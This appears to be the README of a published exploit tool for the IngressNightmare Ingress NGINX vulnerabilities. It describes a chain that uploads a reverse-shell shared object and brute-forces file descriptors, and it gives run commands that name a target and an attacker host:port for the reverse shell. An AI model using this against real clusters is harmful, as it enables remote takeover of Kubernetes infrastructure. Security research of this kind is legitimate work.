 ## Exploit for Ingress NGINX - IngressNightmare

This project provides an exploit targeting critical **unauthenticated Remote Code Execution (RCE)** vulnerabilities in the Ingress NGINX Controller for Kubernetes, collectively referred to as IngressNightmare.

In the original research, the Wiz team did not provide a PoC or a functional exploit, so we decided to create our own and share it with the community.

#### Overview

The Ingress NGINX Controller is a widely used component in Kubernetes environments, managing external access to services within clusters. Recent vulnerabilities (CVE-2025-1097, CVE-2025-1098, CVE-2025-24514, CVE-2025-1974) have highlighted critical security risks.

### **Exploit Workflow**

The exploit follows these main steps:

**Generate shared object** (used by the injected `ssl_engine` property):
*Compiles a .so library (evil_engine.so) containing reverse shell payload.*

**Upload the shared object**:
*Sends the compiled shared object to the ingress pod, leveraging request handling (client body buffers). The trick here is to send a different `Content-Length` to the server to keep the connection open.*

**Brute-force fd**:
*Iterates over process IDs and file descriptors (/proc/{pid}/fd/{fd}) to identify the correct descriptor referencing the uploaded object.*

Usage

Prerequisites:
- Python 3.x
- GCC compiler
- Python requests module

Run exploit:

`pip3 install -r requirements.txt`

`python3 exploit.py <ingress_url> <admission_webhook_url> [attacker_host:port](attacker_host:port)`

Ex: `python3 poc.py http://192.168.0.154 https://rke2-ingress-nginx-controller-admission.kube-system 192.168.1.63:443`

Sometimes the `admission webhook` is in a different namespace. In this case, you need to specify the namespace at the end, such as `kube-system`, `default`, or `ingress-nginx`.

- `<ingress_url>`: Target Ingress URL (public)
- `<admission_webhook_url>`: Admission webhook URL (internal webhook)
- `[attacker_host:port](attacker_host:port)`: Your host and port for reverse shell

**Disclaimer**

This exploit is provided strictly for educational and research purposes. Unauthorized use of this tool against targets without explicit permission is prohibited. Hakai Security and QuimeraX hold no responsibility for any misuse of this tool.